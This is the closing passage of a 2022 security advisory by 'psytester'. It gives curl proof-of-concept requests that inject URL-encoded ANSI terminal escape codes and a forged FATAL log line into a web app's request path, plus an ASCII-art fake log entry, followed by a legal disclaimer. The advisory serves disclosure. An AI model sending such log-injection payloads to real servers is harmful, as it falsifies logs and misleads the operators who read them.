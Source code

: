 curl 'http://localhost:8080/api/path../data%1B%5B2K' 
curl 'http://localhost:8080/api/path../data%1B%5BM2021-12-06%2015%3A23%3A15.196%20%20FATAL%2011810%20---%20%5Bnio-8080-exec-1%5D%20EXCEPTION%3A%20%5BOOM'
```

Btw, as in apache TLS endpoint the url length is limited for the http GET method I cannot build this nice "eye catcher" as usable with http POST method:
```
2033-12-31 00:00:00.000　 FATAL attack from the future
                      ,%@@@@@@@@@@@(.
                   #@@@@@@@@@@@@@@@@@@@(
                 |@@@@@@@@@@@@@@@@@@@@@@@|
               *@@@@@@@@@@@@@@@@@@@@@@@@@@@*
              *@@@@@@@@@@@@@@@@@@@@@@@@@@@@@*
              &@@@@@@@@%,.,#@@@#,.,%@@@@@@@@&
              @@@@@@#       &@&       #@@@@@@
             .@@@@@%       (@@@(       %@@@@@.
              @@@@@@*    (@@@@@@@(    *@@@@@@
              %@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%
               (@@@@@@@@@@@@. .@@@@@&&@@@@@(
      .            *@@@@@@@.   .@@&@@@@*            .
  |@@@@@@%           ,@@@@@@@@@@&@@@@            %@@@@@@|
  @@@@@@@@(          .@@&%@&%&@%&@@           |@@@@@@@@
   @@@@@@@@#         %@@(.@(.@.(@ (@@*         #@@@@@@@@
  (@@@@@@@@@@|       @@@(.@(.@.(@ (@@(       |@@@@@@@@@@(
,@@@@@@@@@@@@@@@@@#.  *@( @(.@.(@ (@*  .#@@@@@@@@@@@@@@@@@,
 @@@@@@||#@@@@@@@@@@@%*         ,%@@@@@@@@@@@#||#@@@@@@@
   .           |&@&@@@@@@@@@(.(@@@@@@@@@@@%|           .
                    *%@@@@@@@@@@@@@@@#*
                   *&@@@@@@@@@@@@@@@@@&*
  .,.         .#&@@@@@@@@@@&* *&@@@@@@@@@@.         .,.
,@@@@@@@@@@@@@@@@@@@@@%,           ,%@@@@@@@@@@@@@@@@@@@@@,
.@@@@@@@@@@@@@@@@@|                     |@@@@@@@@@@@@@@@@@.
  |@@@@@@@@@&*                               ,&@@@@@@@@@|
  ,@@@@@@@@*                                   *@@@@@@@@,
  @@@@@@@@|                                     |@@@@@@@@
  .@@@@@@*                                       *@@@@@@.]
```

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2022 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
